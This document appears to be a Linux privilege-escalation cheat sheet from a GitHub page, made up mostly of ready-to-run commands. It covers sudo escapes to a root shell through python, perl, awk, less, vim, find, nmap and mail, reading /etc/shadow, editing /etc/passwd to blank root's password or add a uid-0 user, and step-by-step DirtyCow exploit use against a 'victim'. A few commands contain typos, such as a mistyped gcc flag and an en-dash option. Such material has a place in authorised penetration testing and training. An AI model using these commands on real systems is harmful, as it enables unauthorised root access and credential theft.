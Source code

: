 # Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

```
➤ Python
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])

➤ Perl
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’

➤ CP + Chmod
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit

➤ Awk
awk 'BEGIN {system("/bin/bash")}'

➤ Less
• Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
• Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash

➤ Vim
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash

➤ Find
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;

➤ Bash
sudo -u root /bin/bash

➤ Nmap
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh

➤ Mail
sudo mail --exec='!/bin/bash'
```

## Writable files
```
➤ Read/write sensitive files
/etc/passwd
/etc/group
/etc/profile
/etc/shadow

➤ Detect if the file is writable
ls -l /etc/passwd
-rwxrwxrwx. 1 root root 1306 Jan 10 21:30 /etc/passwd

➤ Privesc 01 : Delete the x of the root user in /etc/password
• By deleting the 'x', all users can substitute the root user. 
root:x:0:0:root:/root:/bin/bash
->
root::0:0:root:/root:/bin/bash

➤  Privesc 02 : Add another root user in /etc/password
echo "lexis:x:0:0:test:/root:/bin/bash" >> /etc/passwd
```
## SUID files
```
ls –la
-rwsr-xr-x 1 root root 6923 2012-11-02 1:07 /usr/local/bin/uploadtosecure
strings /usr/local/bon/uploadtosecure
```

## Crontab - Privesc

## DirtyCow

Exploit: Linux Kernel 2.6.22 < 3.9

• https://dirtycow.ninja/

• https://github.com/FireFart/dirtycow/blob/master/dirty.c


```
➤ 1. Upload the exploit on the victim

➤ 2. Compile the exploit
gcc -pthread dirty.c -O dirty -lcrypt
chmod +x dirty

➤ 3. exploit it
./dirty
Please enter the new password: lexiswashere

➤ 4. Privesc
su firefart
Password: lexiswashere

Note: if the 'su : must be run from a terminal' error appear, upgrade tty 
python -c 'import pty; pty.spawn("/bin/sh")'
```
